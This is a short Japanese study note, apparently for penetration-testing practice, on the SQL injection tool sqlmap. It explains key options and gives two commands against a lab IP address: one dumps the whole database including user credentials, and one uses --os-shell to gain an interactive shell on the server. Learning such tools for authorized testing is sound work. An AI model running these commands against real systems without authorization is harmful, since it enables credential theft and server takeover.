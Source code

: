 # sqlmap
[公式ページ](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## 概要
sqlmapはKaliにデフォルトでインストールされている。  
SQLiのプロセスはsqlmapを使って様々なDBエンジンに対するSQLiの脆弱性を特定・悪用ができる。  


## コマンド集

-u => ターゲットを指定
-p => テストするパラメータを指定
--dump => ユーザ認証情報を含めてDB全体をダンプする

簡単なSQLiテストのコマンド実行。  
userパラメータの後ろにダミーで1を指定しており、Time-based SQLiを行う。
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

> [!NOTE]  
> sqlmapは大量のトラフィックが発生するため、ステルス性はゼロに等しい。ステルス性を重視する場合は使用しない方が良い。


-r => Burp等で取得したPOSTリクエストをtxt形式で保存しておき、それを引数としてとる  
-p => パラメータ。POSTの中にある脆弱なパラメータを指定する。  
--os-shell => 以下の--web-rootと一緒にオプションに含め、対話的にシェルを取る  
--web-root => 書き込み可能なカスタムフォルダを指定  


ターゲットのWebアプリケーションと対話的にやり取りをするためのコマンド。Time-based SQLiだと時間がかかるという場合に便利。
```
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```


